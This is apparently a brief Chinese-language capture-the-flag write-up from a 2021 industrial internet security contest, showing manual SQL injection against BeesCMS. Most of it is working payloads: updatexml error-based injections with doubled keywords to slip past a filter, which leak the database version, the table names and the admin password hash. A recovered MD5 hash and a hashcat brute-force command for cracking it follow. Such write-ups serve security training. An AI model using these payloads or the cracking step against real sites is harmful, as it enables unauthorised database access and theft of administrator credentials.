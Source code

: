 ![](../../../../assets/img/Security/CTF/writeup/2021-6-第二届I²S峰会暨工业互联网安全大赛/11-2.png)

手工注入 获取hash

```
admin' a and nd   updatexml(1,concat(0x7e,version(),0x7e),1)#


user=admin' a and nd updatexml(1,concat(0x7e,(selselectect group_concat(table_name) fr from om information_schema.tables whe where re table_schema like database()),0x7e),1)#
```
操作数据库失败XPATH syntax error: '~bees_admin,bees_admin_group,bee'


```
user=admin' a and nd updatexml(1,concat(0x7e,(selselectect admin_password fr from om beescms.bees_admin wh where ere admin_name like 'admin'),0x7e),1)#


user=admin' a and nd updatexml(1,concat(0x7e,substr((selselectect admin_password fr from om beescms.bees_admin wh where ere admin_name like 'admin'),24,64),0x7e),1)#
```

获取md5长度有限分两次跑，拼接如下

4e9f837b6543e963aef344abbdfa9d04

.\hashcat.exe -m 0 4e9f837b6543e963aef344abbdfa9d04 -a 3 --increment --increment-min 1 --increment-max 8 ?a?a?a?a?a?a?a?a
